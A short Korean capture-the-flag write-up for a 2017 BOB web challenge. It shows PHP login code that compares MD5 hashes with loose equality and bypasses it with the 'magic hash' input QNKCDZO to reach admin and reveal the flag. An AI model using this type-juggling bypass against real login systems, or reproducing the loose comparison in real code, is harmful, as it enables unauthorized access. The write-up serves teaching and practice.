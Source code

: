# [2017_BOB] \[WEB] hc

###Problem

서버 - http://wemeet.linears.xyz/hc

```php
login failed..
<?php 
include("./config.php"); 

if (preg_match("/[0-9]/", $_GET['pw'])) die('no hack!'); 
if ($_GET['id'] == 'admin' && md5($_GET['pw']) == '0e417203217309127312097309263112') 
{ 
   echo 'hi admin<br />'; 
   clear(); 
} 
else if ($_GET['id'] == 'guest' && md5($_GET['pw']) == '084e0343a0486ff05530df6c705c8bb4') echo 'hi guest<br />'; 
else echo 'login failed..'; 
echo '<hr />'; 
show_source(__FILE__); 
?>
```

접속해보면 위와 같이 뜬다. PHP Magic Hash 취약점이 발생할 것 같다..



### Solution

id를 admin으로 설정하고, 240610708 또는 QNKCDZO 를 pw로 넣어주면 되는데 숫자는 필터링된다. 따라서 QNKCDZO를 넣어주면 된다. (http://wemeet.linears.xyz/hc?id=admin&pw=QNKCDZO)

```php
hi admin
Flag is d17f8594fa0834cff6540e00dafa4fac
<?php 
include("./config.php"); 

if (preg_match("/[0-9]/", $_GET['pw'])) die('no hack!'); 
if ($_GET['id'] == 'admin' && md5($_GET['pw']) == '0e417203217309127312097309263112') 
{ 
   echo 'hi admin<br />'; 
   clear(); 
} 
else if ($_GET['id'] == 'guest' && md5($_GET['pw']) == '084e0343a0486ff05530df6c705c8bb4') echo 'hi guest<br />'; 
else echo 'login failed..'; 
echo '<hr />'; 
show_source(__FILE__); 
?>
```

